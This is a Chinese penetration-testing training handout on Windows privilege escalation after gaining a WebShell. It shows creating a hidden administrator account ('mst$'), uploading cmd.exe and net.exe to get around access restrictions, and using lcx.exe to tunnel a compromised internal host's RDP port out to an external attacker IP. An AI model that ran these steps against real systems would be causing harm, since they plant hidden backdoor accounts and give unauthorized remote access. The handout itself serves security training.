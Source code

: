 # 米斯特白帽培训讲义 漏洞篇 提权

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

提权，顾名思义就是提高自己在服务器中的权限，就比如在 Windows 中你本身登录的用户是 guest，通过提权后就变成超级管理员，拥有了管理 Windows 的所有权限。提权是黑客的专业名词，一般用于网站入侵和系统入侵。本讲义所讲的是基于 WebShell 的菜刀管理下提权。

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4ccprz1aj20wv093weo.jpg)

## 基本 Dos 命令、常识

+   `whoami`：查看当前用户名，用于查看权限大小。
+   `ipconfig`：显示当前 TCP/IP 配置，用于查看 IP。
+   `net user`：查看当前系统的所有用户。
+   `net user <用户名> <用户密码> /add`：创建用户。
+   `net localgroup administrators <用户名> /add`：将用户加入`administrators`用户组。
+   远程连接默认端口：3389。

下面拿菜刀中的 Shell 演示一遍这几个命令。

首先是`whoami`，可以看到`administrator`，应该是管理员。

![](http://ww2.sinaimg.cn/large/841aea59jw1fb4cctvg5kj20ht0750st.jpg)

然后是`ipconfig`，我们可以看到`192.168.175.129`，这是内网的 IP。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb4ccy6hwjj20dz0ddt96.jpg)

然后是`net user`：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb4cd0wn1qj20hd04agll.jpg)

知道这些用户之后，我们需要创建自己的用户`mst`。创建后再执行`net user`，可以看到创建成功：

![](http://ww2.sinaimg.cn/large/841aea59jw1fb4cd3tly5j20hz064mx8.jpg)

接下来我们创建一个名为`mst$`的用户：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb4cd642xxj20h90680st.jpg)

可以看到它并没有显示在用户列表中，之后我们再执行`net user mst$`：

![](http://ww2.sinaimg.cn/large/841aea59jw1fb4cd9err5j20az0bpwep.jpg)

它又是确实存在的，这就是隐藏用户的一个小技巧。

之后我们把`mst$`添加到管理员组中，并且查看它的信息，我们发现它成功刚添加到了管理员组中。

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cdbd37oj20g20dn0t3.jpg)

需要远程连接的时候，输入刚刚创建的用户名和密码就可以了。

## 突破限制

假如说我们在实际情况中看到了`[Err]拒绝访问`：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb4cdxua7dj20f005ojre.jpg)

那我们可以找到自己电脑上的`cmd.exe`，然后上传上去。比如上传路径如下：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cde71lej20sl0a8759.jpg)

我们就可以执行`setp <路径>\cmd.exe`：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cdj9462j20iu05r0su.jpg)

我们再来看各种命令：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cdmk7agj20rm0f30te.jpg)

![](http://ww2.sinaimg.cn/large/841aea59jw1fb4cdplki6j20df03twef.jpg)

`net user`还是拒绝访问的，我们用老方法，找到自己电脑中的`net.exe`，然后传上去。之后执行`<路径>\net.exe user`：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb4cdsd6xgj20hq04174a.jpg)

可以看到突破了限制。

## 端口转发

在提权过程中，我们经常碰到这样的情况：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb56mw6pk7j20d508mwew.jpg)

我们可以看到 WebShell 的主机处于内网下，内网的意思就是说，它能连接别人，但别人不能连接它，就跟连接路由器的个人电脑差不多。

那么这种情况下，我们就需要用到端口转发工具`lcx.exe`，除此之外，还需要一台拥有外网 IP 的主机。这里我们把内网的主机叫做肉鸡，独立 IP 主机叫做本机。

将`lcx.exe`上传至本机和肉鸡之后，首先确定本机的 IP 为`119.90.140.191`：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb56n00sppj208h020743.jpg)

然后我们在本机执行：

```
lcx.exe -listen 51 3388
```

![](http://ww1.sinaimg.cn/large/841aea59jw1fb56n2ux6ej20gt07kjrv.jpg)

这条命令的意思就是说，监听本机的 51 和 3388 端口，并将两个端口互相转发，端口 51 的入境流量发给端口 3388，反之亦然。其中 51 是用于肉鸡连接的端口。3388 是用于我们的远程连接客户端连接的端口，为了避免与本机的远程连接服务冲突，选择了 3388。大家可以自行选择其他未占用端口。

然后我们在肉鸡上执行：

```
lcx.exe -slave 119.90.140.191 51 127.0.0.1 3389
```

![](http://ww2.sinaimg.cn/large/841aea59jw1fb56n5zhs8j20lo026glh.jpg)

这条命令连接肉鸡的 3389 端口，和本机的 51 端口，并互相转发。

之后，我们在本机或其他主机上使用远程连接客户端，连接`119.90.140.191:3388`，可以看到`lcx`中显示了转发的信息。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb56n8h5txj20gt0a10tg.jpg)

远程连接客户端的封包会发给主机的`lcx`，之后会发给肉鸡的`lcx`，之后会发给肉鸡的远程连接服务。响应封包会按原路返回。

等待一会儿之后，我们成功连接了肉鸡的远程桌面：

![](http://ww1.sinaimg.cn/large/841aea59jw1fb56nbetaaj20j50cjgll.jpg)
